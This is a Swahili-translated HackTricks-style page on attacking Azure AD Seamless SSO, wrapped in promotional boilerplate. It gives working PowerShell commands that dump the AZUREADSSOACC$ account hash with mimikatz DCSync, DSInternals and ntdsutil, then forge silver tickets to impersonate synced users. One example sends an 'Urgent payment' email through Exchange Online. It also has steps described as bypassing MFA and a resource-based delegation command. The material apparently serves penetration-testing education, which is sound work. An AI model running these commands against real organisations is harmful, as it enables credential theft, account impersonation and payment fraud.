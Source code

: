 # Az - Usajili wa SSO wa Mfumo wa Kupita

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Usajili wa Moja kwa Moja wa Azure Active Directory (Azure AD Seamless SSO) moja kwa moja **inaingiza watumiaji wanapokuwa kwenye vifaa vyao vya kampuni** vilivyounganishwa kwenye mtandao wako wa kampuni. Ikiwa imewezeshwa, **watumiaji hawahitaji kuingiza nywila zao kuingia kwenye Azure AD**, na kawaida, hata kuingiza majina yao ya mtumiaji. Kipengele hiki hutoa watumiaji wako ufikiaji rahisi kwenye programu zako zilizoko kwenye wingu bila kuhitaji sehemu za ndani za on-premises.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Kimsingi Azure AD Seamless SSO **inaingiza watumiaji** wanapokuwa **kwenye PC iliyoshirikishwa kwenye kikoa cha on-prem**.

Inasaidiwa na [**PHS (Udhibitishaji wa Hashi ya Nywila)**](phs-password-hash-sync.md) na [**PTA (Udhibitishaji wa Kupitia)**](pta-pass-through-authentication.md).

SSO ya Desktop inatumia **Kerberos** kwa uthibitishaji. Ikiwa imeboreshwa, Azure AD Connect inaunda **akaunti ya kompyuta inayoitwa AZUREADSSOACC`$`** kwenye AD ya on-prem. Nywila ya akaunti ya `AZUREADSSOACC$` inatumwa kama **maandishi wazi kwenda Azure AD** wakati wa usanidi.

**Tiketi za Kerberos** zina **kufungwa** kwa kutumia **NTHash (MD4)** ya nywila na Azure AD inatumia nywila iliyotumwa kufungua tiketi hizo.

**Azure AD** inafunua **kituo** (https://autologon.microsoftazuread-sso.com) kinachokubali **tiketi za Kerberos**. Kivinjari cha mashine iliyoshirikishwa kwenye kikoa kinapeleka tiketi kwa kituo hiki kwa SSO.

### On-prem -> wingu

**Nywila** ya mtumiaji **`AZUREADSSOACC$` kamwe haibadiliki**. Kwa hivyo, msimamizi wa kikoa anaweza kudhoofisha **hashi ya akaunti hii**, na kisha kutumia kuunda **tiketi za fedha** kuunganisha Azure na **mtumiaji yeyote wa on-prem aliyesawazishwa**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Kwa hash unaweza sasa **kuunda tiketi za fedha**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Kutumia tiketi ya fedha, hatua zifuatazo zinapaswa kutekelezwa:

1. **Anzisha Kivinjari:** Mozilla Firefox inapaswa kuzinduliwa.
2. **Sanidi Kivinjari:**
   - Nenda kwa **`about:config`**.
   - Weka upendeleo kwa [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) kwa [maadili](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     - `https://aadg.windows.net.nsatc.net`
     - `https://autologon.microsoftazuread-sso.com`
3. **Fikia Programu ya Wavuti:**
   - Tembelea programu ya wavuti iliyounganishwa na kikoa cha AAD cha shirika. Mfano wa kawaida ni [Office 365](https://portal.office.com/).
4. **Mchakato wa Uthibitisho:**
   - Kwenye skrini ya kuingia, jina la mtumiaji linapaswa kuingizwa, likiacha uga wa nenosiri wazi.
   - Ili kuendelea, bonyeza TAB au ENTER.

{% hint style="success" %}
Hii haitoi MFA ikiwa imeanzishwa
{% endhint %}

#### ~~Kuunda Tiketi za Kerberos kwa Watumiaji wa Wingu-Pekee~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ikiwa waendeshaji wa Active Directory wana ufikiaji wa Azure AD Connect, wanaweza **kuweka SID kwa mtumiaji yeyote wa wingu**. Kwa njia hii, tiketi za Kerberos **zinaweza kuundwa pia kwa watumiaji wa wingu-pekee**. Mahitaji pekee ni kwamba SID ni [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) sahihi.

{% hint style="danger" %}
Kubadilisha SID ya watumiaji wa wingu-pekee wa admin sasa **imezuiliwa na Microsoft**.\
Kwa habari zaidi angalia [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wingu kupitia Uteuzi wa Kikwazo wa Rasilimali Kulingana na Rasilimali <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Yeyote anayeweza kusimamia akaunti za kompyuta (`AZUREADSSOACC$`) kwenye chombo au OU akaunti hii iko, anaweza **kusanidi uteuzi wa kikwazo wa rasilimali kulingana na rasilimali juu ya akaunti na kufikia**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Marejeo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Nipo kwenye wingu lako, nikisoma barua pepe za kila mtu - kuhakiki Azure AD kupitia Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
